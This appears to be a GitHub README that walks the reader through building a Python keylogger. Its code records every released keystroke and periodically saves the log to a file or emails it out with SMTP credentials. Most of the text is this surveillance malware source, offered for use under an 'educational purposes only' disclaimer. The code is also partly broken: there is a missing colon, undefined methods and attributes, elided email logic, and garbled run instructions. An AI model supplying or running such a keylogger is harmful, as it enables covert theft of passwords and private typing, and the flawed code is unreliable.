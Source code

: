 # Keylogger Step by Step  Walkthrough

Welcome to the Keylogger Walkthrough repository! This guide is designed to provide cybersecurity enthusiasts with the knowledge to create, analyze, and understand keyloggers. It is intended for educational purposes only.

## What is a Keylogger?

A keylogger is a type of monitoring software designed to record keystrokes made by a user. The recorded data can then be sent to an external source, such as an email or server, or stored locally on the system.

## Disclaimer

This guide should not be used for illegal purposes. The aim is to raise awareness about the capabilities and risks associated with keyloggers.

## Getting Started

This guide will walk you through setting up a basic keylogger using Python. You'll learn how to capture keystrokes and how to handle the data collected.


- Continuous keystroke monitoring
- Customizable report methods (email or local storage)
- Easy-to-follow Python scripts

## Setting Up the Keylogger

Let's initialize the required parameters:
<pre>

    import keyboard
    import smtplib
    from threading import Timer
    from datetime import datetime
    from email.mime.multipart import MIMEMultipart
    from email.mime.text import MIMEText
</pre>

Replace **your_email@example.com** and **your_email_password** with your actual email credentials.

Now, we'll create a class to represent the keylogger:

<pre>
   class Keylogger:
        def __init__(self, interval, report_method="email"):
            self.interval = interval
            self.report_method = report_method
            self.log = ""
            self.start_dt = datetime.now()
            self.end_dt = datetime.now()
</pre>

The **interval** parameter represents the reporting frequency, and **report_method** specifies whether to send logs via email or save them to a local file.

## Listening to Keystrokes

We'll utilize the **keyboard** module's **on_release()** function to capture keystrokes:

<pre>
     def callback(self, event):
        name = event.name
        if len(name) > 1:
            if name == "space":
                name = " "
            elif name == "enter":
                name = "[ENTER]\n"
            elif name == "decimal":
                name = "."
            elif name == "backspace"
                name = ""
            else:
                name = name.replace(" ", "_")
                name = f"[{name.upper()}]"

        self.log += name
</pre>

This callback function is invoked whenever a key is released. It transforms special keys and adds them to the global **self.log** variable.

## Reporting Keystrokes

Depending on the chosen **report_method**, we can report the keystrokes either via email or save them to a local file:

<pre>
     def report_to_file(self):
        with open(f"{self.filename}.txt", "w") as f:
            print(self.log, file=f)
        print(f"[+] Saved {self.filename}.txt")

    def sendmail(self, email, password, message, verbose=1):
        # SMTP server connection and email sending logic
        # ...
</pre>

## Scheduling Reports

To ensure periodic reporting, we'll use a timer:
<pre>
    def report(self):
        if self.log:
            self.end_dt = datetime.now()
            self.update_filename()
            if self.report_method == "email":
                self.sendmail(EMAIL_ADDRESS, EMAIL_PASSWORD, self.log)
            elif self.report_method == "file":
                self.report_to_file()
            print(f"[{self.filename}] - {self.log}")
            self.start_dt = datetime.now()
        self.log = ""
        timer = Timer(interval=self.interval, function=self.report)
        timer.daemon = True
        timer.start()
  </pre>
  
This method is called at regular intervals (**self.interval**) to report the accumulated keystrokes.

## Starting the Keylogger

Finally, we initiate the keylogger with the following code:

<pre>
    def start(self):
        self.start_dt = datetime.now()
        keyboard.on_release(callback=self.callback)
        self.report()
        print(f"{datetime.now()} - Started keylogger")
        keyboard.wait()
  </pre>
  
This **start()** method records the start time, sets up the keylogger, and waits for the user to press CTRL+C to exit the program.

## Putting It All Together

Now, let's instantiate the **Keylogger** class and start the keylogger:

<pre>
    if __name__ == "__main__":
        keylogger = Keylogger(interval=SEND_REPORT_EVERY, report_method="file")
        keylogger.start()
</pre>

Uncomment the line with **report_method="email"** if you prefer to receive reports via email.

To get it started, run sudo python nameoffile.py. If you run this without side you will get an error.

## Contribution

Contributions are welcome! If you have any suggestions or improvements, please feel free to fork the repository and submit a pull request.

## Acknowledgments

- All contributors who have helped with this guide
- The cybersecurity community for their continuous support

Thank you for visiting the Keylogger-Guide repository!


